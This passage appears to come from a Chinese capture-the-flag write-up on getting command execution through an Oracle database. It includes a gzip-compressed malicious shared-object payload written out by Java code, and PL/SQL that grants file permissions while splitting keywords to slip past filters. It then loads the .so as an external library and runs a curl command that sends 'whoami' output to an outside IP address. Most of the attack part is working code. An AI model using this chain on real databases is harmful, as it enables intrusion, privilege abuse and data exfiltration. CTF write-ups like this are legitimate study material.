17, 101, -30, -103, 57, -27, 84, 124, 78, -103, -8, 100, 54, 76, -3, 116, 38, -45, -107, -124, 124, 58, 5, 107, -27, 90, 29, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, 1, -127, -1, 6, -78, 79, -45, 47, -30, -22, -110, 29, 81, 98, -1, -114, -73, -26, 122, -95, -80, -109, -14, 78, -54, 58, -27, -78, 27, -123, -62, 49, 98, -1, -42, -53, 32, -115, 117, 19, 105, 36, 34, 85, 87, -108, 7, -49, 72, -10, -17, -48, 107, -24, 49, -3, 115, -95, -64, -38, 32, -107, -111, -74, -54, -43, -113, -121, -105, 28, 13, -114, -109, -35, 85, 59, 30, 124, 120, -99, -11, -13, 42, -45, -45, -49, 118, 114, -123, -42, 11, 58, -6, 103, -38, 3, -12, 120, -98, -10, 103, -3, -58, -38, 92, 25, 121, 49, 16, 91, -70, -24, 0, -19, -32, -114, -49, 94, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, -32, 127, 0, -120, 7, -99, 116, -60, 71, 51, 28, 2, -82, -64, 122, 80, -66, 20, -52, 77, -96, -69, 7, 108, -116, 51, -83, 6, 27, -65, -39, -86, 80, 15, -15, -90, 107, -72, -14, 95, -25, 11, 89, -85, 63, 8, -6, -60, -104, -48, 58, 8, 38, -59, 88, -26, -109, 80, -66, 24, -20, 97, 96, 12, 26, 94, 13, -116, 49, -88, -77, 16, 103, 26, -32, -54, -15, -5, -75, 28, 120, 21, -16, 120, -87, -37, 63, 93, -30, 30, -25, 91, -64, 33, -82, -67, -7, -126, 61, -2, -9, -95, 126, 1, 108, 92, -57, -21, 96, -65, 1, -27, -65, -125, -19, -116, -107, -3, 55, -127, -15, -22, 60, -74, 113, -15, -65, -19, -79, -40, 99, -47, 13, -83, 70, 95, 82, -53, 68, -73, -80, -24, -29, -70, -38, 45, 91, 55, -62, -91, 127, -5, 118, 92, -2, -115, 2, -17, 103, -49, 81, -128, -98, -9, 69, -36, -2, 74, -16, -113, 115, -2, -75, -32, -97, -28, -4, -113, 88, 125, -84, 34, -111, -90, -123, -2, 24, 98, -42, -11, -14, -30, 115, -122, 56, 12, -19, 20, -29, -98, 1, -61, 86, -3, 101, -59, -25, 22, -15, -118, -49, -8, -3, -26, -11, -102, 85, 22, 33, -25, -93, 124, -119, 119, -3, 119, -84, -15, 44, 45, -2, -3, 32, 46, 88, -19, -36, 93, 92, 127, -60, -121, -106, -1, -82, -101, -18, -37, 101, -21, 28, 46, -26, 3, 32, -66, -123, 118, 112, 125, 16, 63, 88, -2, -107, -59, -65, 11, -60, -97, -42, 120, 66, 11, 1, -28, -128, 18, -55, 59, 78, -66, 70, -14, -114, -73, -81, -105, -68, -29, -28, -73, -7, -76, 19, -9, -15, -85, -110, 119, 28, 62, 73, -28, -52, -68, 57, -44, -33, 47, 39, -56, 66, -104, -67, 106, -90, -43, 4, 11, -89, -49, 19, 85, -43, -77, -22, 64, 42, -37, -89, -91, 84, -35, -52, -26, -14, -86, 54, 52, 66, 18, -39, -12, -111, -108, 97, 26, 58, 125, 102, 61, 107, -80, -32, -5, -92, -86, -27, 114, -38, -88, 106, 100, -52, -36, 40, -23, -49, 105, 105, 67, -43, -121, -46, -23, 81, 42, 113, 88, 42, -83, 105, -70, -86, -114, -116, 25, -61, -55, 20, 29, -111, -86, -74, 117, 55, 119, -58, -43, 120, 87, 43, -53, 5, 96, 109, -78, -18, -14, 89, 117, 80, -53, -24, 44, -48, -65, 117, 127, 87, 115, -25, -98, 24, -11, -74, 119, -11, -86, 113, 5, 4, 74, 107, 55, 117, -11, 116, -58, 80, -38, -34, -79, -73, -91, -71, 67, -35, -37, -42, -10, 100, -68, 71, -19, 105, 110, -23, -120, 83, 47, -21, -7, 111, 83, 12, -20, -84, -127, 38, 103, -82, 0, 75, 38, -16, 74, 82, -72, -115, 68, 4, 87, 59, 68, -50, -113, -90, 77, -83, -113, -78, -103, -77, 121, 16, -81, 50, 89, -45, -112, 7, 50, 67, 114, -33, 80, 50, -91, -41, 38, 117, 98, 89, -125, 90, 126, -112, -56, -6, 104, -122, 42, 109, 54, 115, 118, -55, -80, -111, -53, 39, -77, 25, -105, -95, -46, -78, -100, -111, -46, 88, 69, -72, 58, -110, 50, -119, 108, 77, -102, 93, -54, 3, 89, 122, 97, 26, 35, -12, 108, 45, -83, -100, -53, -22, -102, -87, 17, -39, 24, -124, 27, 52, -88, -25, 22, 44, 91, 106, -33, 41, 91, -127, -41, -76, 7, 45, -99, 76, 16, -42, -94, -35, -119, -35, 78, 95, 62, 79, 100, -6, -84, -92, -23, 125, -11, 122, -8, -2, 57, -40, 62, -24, -52, 101, -16, -53, -5, 65, -16, -71, 83, 44, -51, -24, 55, -70, 87, -96, 30, -9, -57, 67, -100, 30, -9, 17, -2, -1, 72, -73, 19, 123, 111, 68, 61, -18, -97, -56, -72, -97, -79, 126, 37, -121, 30, -9, -75, 38, 104, 27, -11, -72, 31, 35, -29, -2, -117, -112, 56, 91, 33, -10, 94, -120, 122, -36, -1, -112, 43, -71, -15, 7, 56, 102, 121, 55, -13, 14, 61, -18, -81, -56, 81, -97, -15, 35, 116, 40, 67, 61, -18, -25, -56, 56, 127, 126, -3, 112, -2, 25, -48, -73, -128, -115, -17, 7, -56, -50, -9, -115, -107, 30, -6, 17, -30, -54, 117, -70, 41, -81, 13, -33, 59, 16, -4, -3, -49, 115, -6, 104, -124, 99, -82, 62, -97, 62, -9, 44, -89, 111, -118, -72, -103, 95, -81, 32, -57, 47, 113, 122, -36, -73, -111, -65, -15, -23, 31, 113, -102, -45, -29, 126, -121, 28, -30, -22, -13, -13, 127, 25, -12, -59, 92, -96, -88, -101, -7, -9, 39, -2, -7, 59, -57, -23, -3, -14, -25, -4, -6, 127, -101, -45, 111, -120, -70, -7, 24, 87, -97, 95, -49, -9, -120, -3, -116, -29, 56, -117, -7, 116, -75, -34, -11, -7, -11, 103, -5, 126, -40, -95, 47, -66, -41, -56, -18, 122, 126, -6, -49, -119, 59, 39, -85, -104, -81, 8, 122, -52, 83, 44, -27, 116, 120, 31, -113, 19, 123, -2, -88, -57, -4, -81, -53, -101, 109, -114, -34, -94, -1, -81, 56, 61, -66, 119, -52, -34, -90, -2, 59, 78, 95, -52, 75, -85, 115, -41, -29, -11, -120, -17, -63, -121, 122, 124, 31, -118, -8, -24, -7, -25, 103, 22, 124, -4, -85, 46, -22, 107, 124, -12, 78, -10, -54, 99, -85, 3, -3, 17, 40, 100, -33, 71, 43, -56, -51, -1, 126, -124, -120, -9, 55, -62, -7, 122, -101, -57, -72, 1, -13, -29, 95, -26, -93, -81, -38, 106, -13, 13, -50, -49, -21, -1, 2, 0, 24, 8, -29, 16, 60, 0, 0};
        GZIPInputStream gzipInputStream = new GZIPInputStream(new ByteArrayInputStream(data));
        FileOutputStream fileOutputStream = new FileOutputStream(path);

        byte[] buffer = new byte[1024];
        int len;
        while ((len = gzipInputStream.read(buffer)) > 0) {
            fileOutputStream.write(buffer, 0, len);
        }

        gzipInputStream.close();
        fileOutputStream.close();

        return "write ok";
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101337-fb7aa7ec-d5de-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101342-fe906912-d5de-1.png)

这段代码会写入一个恶意的 so 文件。接下来该做的就是创建 function 了。  
`sql=create or replace function java_write(path varchar2) return varchar2 as language java name 'JavaTool.write(java.lang.String) return java.lang.String';`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101349-02a3a244-d5df-1.png)

接下来调用这个 java\_write 写入恶意 so

```plain
BEGIN
if (java_write('/tmp/evil.so') = 'ok')
then dbms_output.put_line('Valid');
else dbms_output.put_line('Invalid');
end if;
end;
```

在这里 select 被过滤了，因此我们需要使用别的语句去调用方法，这里用的是 if 语句。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101358-08386f78-d5df-1.png)

在这里报错了，原因是目录问题，我们只可以写入 ORCLE\_HOME，而其他文件位置我们是不知道的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101405-0c8c19da-d5df-1.png)

改为

```plain
BEGIN
if (java_write('/opt/oracle/product/23c/dbhomeFree/evil.so') = 'ok')
then dbms_output.put_line('Valid');
else dbms_output.put_line('Invalid');
end if;
end;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101412-10341a56-d5df-1.png)

第二次报错是因为没有 FilePermission，我们给他加上即可。这里绕过关键字用`||`拼贴就好

```plain
begin
dbms_java.grant_permission('SYSTEM', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'read,write,e'||'xecute,del'||'ete');
end;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101418-13f20630-d5df-1.png)

然后写入成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101422-166667b2-d5df-1.png)

看 xz 的 wp 他说这里进行了 gzip 压缩，假如不压缩会产生 java source 过长无法执行的问题，其实执行是肯定可以的，只是服务端设置的 timeout 是 5s，因此导致执行失败。（gzip 压缩后还可以被识别？）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101427-1931c77a-d5df-1.png)

接下来创建 lib 即可

```plain
create or replace library lib_evils as '/opt/oracle/product/23c/dbhomeFree/evil.so';
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101442-2253dadc-d5df-1.png)

然后创建 rce 的 function

```plain
create or replace function rce(str varchar2) return varchar2 as language c library lib_evils name "cmd";
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101448-25c98766-d5df-1.png)

创建完毕后我们只需要和上面一样，用 IF 语句去调用 rce 方法。

```plain
BEGIN
if (rce('/bin/cu'||'rl ht'||'tp://8.130.24.188:7775?a=`/bin/whoami`') = 'ok')
then dbms_output.put_line('Valid');
else dbms_output.put_line('Invalid');
end if;
end;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101456-2a6d79a8-d5df-1.png)

这里其实还会遇到这个问题，也就是 dll path，上述提到的问题，我不知道题目靶场的`$ORACLE_HOME/hs/admin/extproc.ora`里面设置的是什么，又或者是我的 oracle 版本过高（23c）导致的，低版本的 oracle 不需要设置这个？无论如何我现在需要修改一下文件内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101501-2db41932-d5df-1.png)

也可以把那个直接改为`SET EXTPROC_DLLS=ANY`直接开放，我估计题目靶场可能就是这么写的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101506-306bcc88-d5df-1.png)

在这一步并没出现 xz 师傅说到的不能执行/bin 目录下的指令，可能题目做了多余限制吧，假如有限制的话，那我们就只能用 oracle 根目录下的指令了，比如自带的 perl，perl 可以外带 flag。

## 误区

我一直搞错那个 lib 的创建问题，问题出现在

```plain
create or replace function rce(str varchar2) return varchar2 as language c library lib_evils name "cmd";
```

这里的`name "cmd"`一定要和你 so 文件内的函数名字一样，这不是给这个 function 取名字，这部分通常用于在调用外部库的过程中指定要执行的函数或子例程的名称。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101511-33ca3da6-d5df-1.png)
